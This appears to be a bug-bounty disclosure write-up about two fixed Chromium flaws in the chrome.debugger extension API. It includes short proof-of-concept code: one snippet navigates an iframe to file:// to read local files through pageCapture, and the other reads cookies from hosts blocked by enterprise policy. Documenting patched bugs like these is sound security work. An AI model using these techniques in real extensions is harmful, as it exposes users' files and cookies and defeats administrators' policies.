 ```yaml
---
title: Abusing the chrome.debugger extension API
---
```


The chrome extension `chrome.debugger` <https://developer.chrome.com/docs/extensions/reference/api/debugger> API implies `<all_urls>` permission but should not grant access to the users file system or bypass enterprise policies.  
However its a very powerful protocol by design with lots of features <https://chromedevtools.github.io/devtools-protocol/>

# 'Page.navigate' could navigate iframes to file:// when not enabled (Awarded $3000)

Extensions with both `pageCapture` and `debugger` permissions could read local file contents.
This is because its possible to use `Page.navigate` to navigate an iframe to `file://` when "Allow access to file URLs" is disabled exposing the files contents to the `pageCapture` API.

```js
chrome.debugger.attach({tabId: <TARGET>}, '1.3', console.log);
chrome.debugger.sendCommand({tabId: <TARGET>}, 'Page.navigate', {frameId: <FRAME ID AS SEEN FROM EVENTS), url: 'file:///d:/demo.txt'}, console.log);
chrome.pageCapture.saveAsMHTML({tabId: 800972627}, console.log);
```

This issue was fixed in <https://issues.chromium.org/40060173>

# Features bypass the runtime_blocked_hosts cookie protection (Awarded $3000)

Extensions where able to get cookies from a runtime_blocked_host using the chrome.debugger API via `Storage.getCookies` <https://chromedevtools.github.io/devtools-protocol/tot/Storage/#method-getCookies> and other protocol features.

## Setup

- Add host to runtime_blocked_hosts <https://chromeenterprise.google/policies/?policy=ExtensionSettings>
- For windows 10 using registry at `HKEY_CURRENT_USER\SOFTWARE\Policies\Google\Chrome` create string with name `ExtensionSettings` and content of `{ "*": { "runtime_blocked_hosts": [ "*://example.org" ] } }`
- Policy should be listed at `chrome://policy/` may need to reload.
- Create cookie at <https://example.org> like `document.cookie = 'foo=foo';`

## Exploit

Using a browser extension with the debugger permission.

- Get `tabId` like with `chrome.tabs.query({active: true});`
- Attach to a tab with `await chrome.debugger.attach(target, '1.3');`
- Run `Storage.getCookies` with `await chrome.debugger.sendCommand({tabId: <tabId>}, 'Storage.getCookies');` it should contain the cookie from the runtime blocked host.
